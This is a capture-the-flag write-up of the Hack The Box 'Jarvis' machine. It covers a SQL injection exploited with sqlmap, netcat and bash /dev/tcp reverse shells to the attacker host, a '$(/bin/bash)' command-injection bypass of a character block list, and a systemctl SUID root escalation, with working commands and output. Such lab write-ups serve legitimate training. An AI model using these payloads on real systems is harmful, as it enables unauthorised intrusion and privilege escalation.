






# Jarvis Writeup w/o Metasploit


## Reconnaissance <a id="f549"></a>

I usually first run a quick initial nmap scan covering the top 1000 ports, then a full nmap scan covering all the ports and end it with a UDP scan. Today we’re going to do something different. I found this [awesome script](https://github.com/21y4d/nmapAutomator) online that automates the recon & enumeration phases. It was developed by [someone who recently passed his OSCP](https://forum.hackthebox.eu/discussion/1655/oscp-exam-review-2019-notes-gift-inside).

The script does all the general enumeration techniques using nmap, gobuster, nikto, smbmap, etc. I’m going to use it as is in this blog and customize it to fit my needs in future blogs.

Let’s run the nmapAutomator script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.143 All
```

* **All**: Runs all the scans consecutively.

We get back the following result.

```text
Running all scans on 10.10.10.143
                                                                                                                                                                               
Host is likely running Linux---------------------Starting Nmap Quick Scan---------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 10:39 EST
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.041s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  httpNmap done: 1 IP address (1 host up) scanned in 0.77 seconds---------------------Starting Nmap Basic Scan---------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 10:39 EST
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.037s latency).PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds----------------------Starting Nmap UDP Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 10:39 EST
Warning: 10.10.10.143 giving up on port because retransmission cap hit (1).
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.047s latency).
All 1000 scanned ports on supersecurehotel.htb (10.10.10.143) are open|filtered (936) or closed (64)Nmap done: 1 IP address (1 host up) scanned in 58.34 seconds---------------------Starting Nmap Full Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 10:40 EST
Initiating SYN Stealth Scan at 10:40
Scanning supersecurehotel.htb (10.10.10.143) [65535 ports]
Discovered open port 80/tcp on 10.10.10.143
Discovered open port 22/tcp on 10.10.10.143
Warning: 10.10.10.143 giving up on port because retransmission cap hit (1).
SYN Stealth Scan Timing: About 23.22% done; ETC: 10:42 (0:01:43 remaining)
SYN Stealth Scan Timing: About 45.90% done; ETC: 10:42 (0:01:12 remaining)
Discovered open port 64999/tcp on 10.10.10.143
SYN Stealth Scan Timing: About 68.71% done; ETC: 10:42 (0:00:41 remaining)
Completed SYN Stealth Scan at 10:42, 132.60s elapsed (65535 total ports)
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.033s latency).
Not shown: 65483 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
1093/tcp  filtered proofd
1783/tcp  filtered unknown
2367/tcp  filtered service-ctrl
3386/tcp  filtered gprs-data
3690/tcp  filtered svn
5236/tcp  filtered padl2sim
7485/tcp  filtered unknown
8283/tcp  filtered unknown
8422/tcp  filtered unknown
13232/tcp filtered unknown
16012/tcp filtered unknown
16297/tcp filtered unknown
18491/tcp filtered unknown
18734/tcp filtered unknown
19330/tcp filtered unknown
19836/tcp filtered unknown
24451/tcp filtered unknown
33265/tcp filtered unknown
34083/tcp filtered unknown
34431/tcp filtered unknown
34989/tcp filtered unknown
35114/tcp filtered unknown
35443/tcp filtered unknown
36240/tcp filtered unknown
36615/tcp filtered unknown
37331/tcp filtered unknown
38033/tcp filtered unknown
38677/tcp filtered unknown
39074/tcp filtered unknown
41043/tcp filtered unknown
41133/tcp filtered unknown
41946/tcp filtered unknown
47563/tcp filtered unknown
47871/tcp filtered unknown
48906/tcp filtered unknown
50277/tcp filtered unknown
53080/tcp filtered unknown
54222/tcp filtered unknown
56272/tcp filtered unknown
56437/tcp filtered unknown
60421/tcp filtered unknown
61301/tcp filtered unknown
62098/tcp filtered unknown
62409/tcp filtered unknown
62836/tcp filtered unknown
63097/tcp filtered unknown
63184/tcp filtered unknown
64906/tcp filtered unknown
64999/tcp open     unknown
65508/tcp filtered unknownRead data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 132.74 seconds
           Raw packets sent: 66281 (2.916MB) | Rcvd: 102951 (11.685MB)Making a script scan on extra ports: 64999
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 10:42 EST
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.033s latency).PORT      STATE SERVICE VERSION
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.84 seconds---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                                                               
Running CVE scan on all ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 10:42 EST
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.033s latency).PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| vulners: 
|   cpe:/a:apache:http_server:2.4.25: 
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|_      CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| vulners: 
|   cpe:/a:apache:http_server:2.4.25: 
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|_      CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.56 secondsRunning Vuln scan on all ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 10:42 EST
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.033s latency).PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /phpmyadmin/: phpMyAdmin
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.25 (debian)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.25 (debian)'
|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.25 (debian)'
|_http-server-header: Apache/2.4.25 (Debian)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| vulners: 
|   cpe:/a:apache:http_server:2.4.25: 
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       CVE-2019-10081  5.0     https://vulners.com/cve/CVE-2019-10081
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-7659   5.0     https://vulners.com/cve/CVE-2017-7659
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|_      CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.25 (Debian)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| vulners: 
|   cpe:/a:apache:http_server:2.4.25: 
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       CVE-2019-10081  5.0     https://vulners.com/cve/CVE-2019-10081
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-7659   5.0     https://vulners.com/cve/CVE-2017-7659
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|_      CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.96 seconds---------------------Recon Recommendations----------------------Web Servers Recon:
                                                                                                                                                                               
gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://10.10.10.143:80 -o recon/gobuster_10.10.10.143_80.txt
nikto -host 10.10.10.143:80 | tee recon/nikto_10.10.10.143_80.txtgobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://10.10.10.143:64999 -o recon/gobuster_10.10.10.143_64999.txt
nikto -host 10.10.10.143:64999 | tee recon/nikto_10.10.10.143_64999.txtWhich commands would you like to run?                                                                                                                                          
All (Default), gobuster, nikto, Skip <!>Running Default in (14) s: All---------------------Running Recon Commands----------------------Starting gobuster scan
                                                                                                                                                                               
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143:80
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/01/10 10:44:02 Starting gobuster
===============================================================
http://10.10.10.143:80/.htaccess (Status: 403) [Size: 296]
http://10.10.10.143:80/.htaccess.html (Status: 403) [Size: 301]
http://10.10.10.143:80/.htaccess.php (Status: 403) [Size: 300]
http://10.10.10.143:80/.htpasswd (Status: 403) [Size: 296]
http://10.10.10.143:80/.htpasswd.html (Status: 403) [Size: 301]
http://10.10.10.143:80/.htpasswd.php (Status: 403) [Size: 300]
http://10.10.10.143:80/.hta (Status: 403) [Size: 291]
http://10.10.10.143:80/.hta.html (Status: 403) [Size: 296]
http://10.10.10.143:80/.hta.php (Status: 403) [Size: 295]
http://10.10.10.143:80/css (Status: 301) [Size: 310]
http://10.10.10.143:80/fonts (Status: 301) [Size: 312]
http://10.10.10.143:80/footer.php (Status: 200) [Size: 2237]
http://10.10.10.143:80/images (Status: 301) [Size: 313]
http://10.10.10.143:80/index.php (Status: 200) [Size: 23628]
http://10.10.10.143:80/index.php (Status: 200) [Size: 23628]
http://10.10.10.143:80/js (Status: 301) [Size: 309]
http://10.10.10.143:80/nav.php (Status: 200) [Size: 1333]
http://10.10.10.143:80/phpmyadmin (Status: 301) [Size: 317]
http://10.10.10.143:80/room.php (Status: 302) [Size: 3024]
http://10.10.10.143:80/server-status (Status: 403) [Size: 300]
===============================================================
2020/01/10 10:44:44 Finished
===============================================================Finished gobuster scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting nikto scan
                                                                                                                                                                               
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        80
+ Start Time:         2020-01-10 10:44:46 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'ironwaf' found, with contents: 2.0.3
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3092: /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 7864 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2020-01-10 10:50:36 (GMT-5) (350 seconds)
--------------------------------------------------------------------
+ 1 host(s) testedFinished nikto scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting gobuster scan
                                                                                                                                                                               
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143:64999
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/01/10 10:50:37 Starting gobuster
===============================================================
http://10.10.10.143:64999/.htpasswd (Status: 403) [Size: 299]
http://10.10.10.143:64999/.htpasswd.html (Status: 403) [Size: 304]
http://10.10.10.143:64999/.htpasswd.php (Status: 403) [Size: 303]
http://10.10.10.143:64999/.htaccess (Status: 403) [Size: 299]
http://10.10.10.143:64999/.htaccess.html (Status: 403) [Size: 304]
http://10.10.10.143:64999/.htaccess.php (Status: 403) [Size: 303]
http://10.10.10.143:64999/.hta (Status: 403) [Size: 294]
http://10.10.10.143:64999/.hta.html (Status: 403) [Size: 299]
http://10.10.10.143:64999/.hta.php (Status: 403) [Size: 298]
http://10.10.10.143:64999/index.html (Status: 200) [Size: 54]
http://10.10.10.143:64999/index.html (Status: 200) [Size: 54]
http://10.10.10.143:64999/server-status (Status: 403) [Size: 303]
===============================================================
2020/01/10 10:51:32 Finished
===============================================================Finished gobuster scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting nikto scan
                                                                                                                                                                               
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        64999
+ Start Time:         2020-01-10 10:51:34 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'ironwaf' found, with contents: 2.0.3
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7866 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-01-10 10:57:10 (GMT-5) (336 seconds)
--------------------------------------------------------------------
+ 1 host(s) testedFinished nikto scan
                                                                                                                                                                               
=========================
                                                                                                                                                                                                                                                                                                                                                      
                                                                                                                                                                               
---------------------Finished all Nmap scans---------------------
```

Before we move on to enumeration, let’s make some mental notes about the scan results. We have 3 open ports:

* **Port 22:** running OpenSSH 7.4p1
* **Port 80:** running Apache httpd 2.4.25
* **Port 64999:** running Apache httpd 2.4.25.

Let’s look at each port individually.

**Port 22**

* The OpenSSH version that is running on port 22 is not associated with any critical vulnerabilities, so it’s unlikely that we gain initial access through this port, unless we find credentials.

**Port 80**

* The gobuster scan on this web server showed three promising directories/files: _index.php_, _room.php_, _/phpmyadmin_.
* The Nikto scan found two extra files: _/icons/README_ and _/phpmyadmin/ChangeLog_. The ChangeLog file will be useful since it usually contains the phpMyAdmin version number.

**Port 64999**

* The gobuster and Nikto scans didn’t find anything useful for this port.

## Enumeration <a id="ab88"></a>

Let’s start off with enumerating port 80. Visit the application in the browser.


We get two domain names: _supersecurehotel.htb_ and _logger.htb_.

Add them to the _/etc/hosts_ file.

```text
10.10.10.143 supersecurehotel.htb logger.htb
```

Both of them seem to redirect to the same website. Next, view the page source to see if we can get any extra information, domains, etc. We don’t get anything useful.

Then visit all the links in the application. It seems to be all static content except for the _room.php_ page that takes in a _cod_ parameter and outputs the corresponding room information.



From previous experience, I can safely say that if this parameter field is vulnerable, it’s vulnerable to one of the following: LFI, RFI or SQLi. We’ll have to test for all three vulnerabilities.

Before we do that, let’s check the _phpmyadmin_ directory.



I tried default credentials but that didn’t work.


Next, view the _ChangeLog_ document to get the version number. This can also be found in the _README_ document that nikto reported.



The version is 4.8.0. Run searchsploit on the version number.

```text
searchsploit phpMyAdmin | grep  4\\.8\\.
```

We get back the following result.


The exploits require authentication, so we’ll have to first find credentials. For now, we’ve enumerated this port enough, so let move on to port 64999.


It seems to only contain the above static text and didn’t get any directories/files from nikto and gobuster, so this port will not be useful to us.

Based on the enumeration results above, we have enough information to move on to the exploitation phase.

## Initial Foothold <a id="dd94"></a>

Go back to the _room.php_ page and try LFI/RFI payloads. I tried several, however, none of them worked. If you’re not familiar with how to test LFI/RFI vulnerabilities, refer to my [Poison writeup](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5).

Next, let’s try SQL injection. We know it’s using a MySQL database based on the _README_ document of _phpMyAdmin._ The first thing I’m going to try is a simple time-based SQL injection. If it takes longer than usual for the response to come back to me, then we know it’s vulnerable.

```text
http://10.10.10.143/room.php?cod=1%20or%20sleep(10)
```

The application did take about 10 seconds before it returned a response, which confirms to us that the backend is interpreting my sleep command as SQL code and running it. Therefore, this is for sure vulnerable to SQL injection.

> **Note:** I’m going to proceed with exploiting this vulnerability using SQLMap. This is a tool that is not allowed on the OSCP. Therefore, I added an **Extra Content** section at the end of the blog explaining how to exploit it manually.

Let’s confirm it’s vulnerable using SQLMap. Intercept the request in Burp.



Copy the content of the request and save it in the file request.txt.

```text
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" -r request.txt
```

* **-v:** Verbosity level
* **— user-agent:** HTTP User-Agent header value
* **-r:** Load HTTP request from a file

We get back the following result confirming to us that the _cod_ parameter is vulnerable to SQL injection.


SQLMap has a nice flag that enumerates the DBMS users’ password hashes and then attempts to crack them for you.

```text
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --passwords -r request.txt
```

* **— passwords:** Enumerate DBMS users password hashes

We get back the following result showing that not only did it find a password hash for the user DBadmin but it also cracked it.



We can try this password on the _phpMyAdmin_ page.



We’re in! Before I try to get command execution through the phpMyAdmin console, there’s another cool feature in SQLMap that will try to get a shell on the host running the web server.

```text
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --os-shell -r request.txt
```

* **— os-shell:** Prompt for an interactive operating system shell


We have a shell! This goes to show how powerful this tool is, which is probably why it’s not allowed on the OSCP.

From here, we’ll send a reverse shell back to us. First, set up a listener on the attack machine.

```text
nc -nlvp 1234
```

Then visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and get a bash reverse shell.

```text
nc -e /bin/sh 10.10.14.12 1234
```

Run the above command in the SQLMap shell.


We get a shell! Let’s upgrade it to a better shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _www-data_ and we don’t have privileges to view the user.txt flag. Therefore, we need to escalate privileges.

## Privilege Escalation <a id="b8df"></a>

Run the following command to view the list of allowed commands the user can run using sudo without a password.

```text
www-data@jarvis:/home/pepper$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/binUser www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

As can be seen above, we have the right to run the file _simpler.py_ with pepper’s privileges. Let’s view the permissions on the file.

```text
www-data@jarvis:/home/pepper$ ls -la /var/www/Admin-Utilities/
total 16
drwxr-xr-x 2 pepper pepper 4096 Mar  4  2019 .
drwxr-xr-x 4 root   root   4096 Mar  4  2019 ..
-rwxr--r-- 1 pepper pepper 4587 Mar  4  2019 simpler.py
```

We can read the file. Let’s view the file content to see if we can exploit it to escalate our privileges to pepper.

```text
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import redef show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)......def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

The “_-p_” option calls the _exec\_ping\(\)_ command. This command takes in user provided input and checks if the following characters are part of the input: ‘&’, ‘;’, ‘-’, ‘\`’, ‘\|\|’, ‘\|’. If it finds one of these characters, it prints out the message “Got you” and terminates the program. Otherwise, it executes the ping command on the user provided input.

Notice that the dollar sign is allowed, so I can use that to get a privileged shell. Take for example the following command.

```text
www-data@jarvis:/var/www/Admin-Utilities$ ping $(whoami)ping: www-data: Temporary failure in name resolution
```

Whatever is in the parenthesis will be executed first and the output of it will be passed to the ping command. Therefore, as can be seen in the above output, it resolved the _whoami_ command to “_www-data_” and then it tried to ping the output of the command.

So to escalate our privileges to pepper, in the IP address field, we just run the $\(/bin/bash\) command.

```text
www-data@jarvis:/$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p 
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************Enter an IP: $(/bin/bash)
pepper@jarvis:/$ whoami
pepper@jarvis:/$ cat /home/pepper/user.txt
```

We’re pepper! I tried running a few commands, but something seems to be wrong with my shell, so instead I sent a new reverse shell \(done in the same way as earlier\) back to my attack machine and upgraded it to a fully interactive shell.

Now we can view the user.txt flag.


To view the root.txt flag, we need to escalate our privileges to root.

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We get back the following result.

```text
.....

[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn.....
```

The _systemctl_ binary has the setuid bit set and it’s owned by root. We can use that to our advantage and escalate to root privileges. If you’re not sure how to do that, you can search the binary name on [GTFOBins](https://gtfobins.github.io/) and check how the suid bit can be used to escalate privileges.


There’s a good blog written by [Samual Whang](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49) explaining how to set up a service and use the misconfigured _systemctl_ binary to send a privileged reverse shell back to our attack machine.

First, create a _root.service_ file with the following content.

```text
[Unit]
Description=get root privilege[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/9999 0>&1'[Install]
WantedBy=multi-user.target
```

Transfer it to the target machine. Then run the following command.

```text
/bin/systemctl enable /home/pepper/root.service
```

This command will hook the specified unit to the correct place so that _root.service_ is started automatically on boot.

Next, set up a listener on your attack machine to receive the reverse shell.

```text
nc -nlvp 9999
```

In the target machine, start the root service.

```text
/bin/systemctl start root
```

We get a shell! Grab the root.txt flag.


